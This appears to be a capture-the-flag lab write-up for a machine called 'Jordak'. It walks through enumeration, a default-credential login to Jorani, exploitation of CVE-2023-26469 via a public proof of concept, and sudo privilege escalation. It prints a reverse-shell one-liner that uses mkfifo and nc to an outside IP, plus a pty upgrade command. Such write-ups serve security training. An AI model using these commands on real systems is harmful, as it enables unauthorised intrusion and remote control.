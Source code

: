 # Jordak

So i start enumeration and find 2 open ports:

<figure><img src="../../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the webpage, we see a normal apache server webpage, and after fuzzing for a bit, we find a .git directory that redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I go on internet and look for default credentials:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see that it is Jorani V1, so i look for exploits that i can maybe leverage and end up on this CVE:

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-26469" %}

I tried soe POCs and the one from orangecyberdefense was the best in my opinion:

{% embed url="https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/CVE_Jorani.py" %}

It gave me a pseudo term:&#x20;

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can catch my local.txt flag with ease but the shell is very restrictive so i go and get a reverse shell with the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 1234 >/tmp/f
```

and upgrade my low interactive shell with a full tty command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

then i look at my sudo rights:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and see that there are exploits to elevate our shell:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we adapt the command to fit to our rights and bam:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Onto the next one

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
